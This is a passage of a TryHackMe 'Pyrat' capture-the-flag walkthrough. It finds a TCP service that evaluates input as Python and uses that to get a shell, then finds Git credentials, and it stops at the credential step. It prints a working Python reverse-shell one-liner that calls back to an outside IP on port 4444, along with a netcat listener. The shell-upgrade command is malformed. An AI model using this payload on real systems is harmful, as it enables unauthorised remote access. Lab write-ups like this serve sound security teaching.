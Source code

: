 
# TryHackMe: Pyrat – User Flag Walkthrough

##  Initial Enumeration

After discovering port `8000` open alongside SSH (`22`) during an Nmap scan, the HTTP service responded oddly:

```
Try a more basic connection
```

This hinted that the service might interpret raw TCP input. Connecting with `nc`:

```bash
nc pyrat.thm 8000
```

Sending standard HTTP requests caused Python syntax errors (`name 'GET' is not defined`), suggesting the server was evaluating input as Python code.

I tried inputting: print("hello") to confirm this vulnerability

## Gaining a Shell

Using this vulnerability, I sent a reverse shell payload through the raw TCP connection:

---

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.85.160",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/sh"])
```

---

With a listener running:

```bash
rlwrap nc -lvnp 4444
```

I gained a shell as the `www-data` user.

I wanted a real shell so i ran:

'''bash
python3 'import pty; pty.spawn("/bin/bash")'

## Privilege Escalation – Git Credentials

While exploring the file system, I found a Git repository in `/opt/dev/.git/`. Inside `config`, I discovered hardcoded credentials:

```bash
cat /opt/dev/.git/config
```
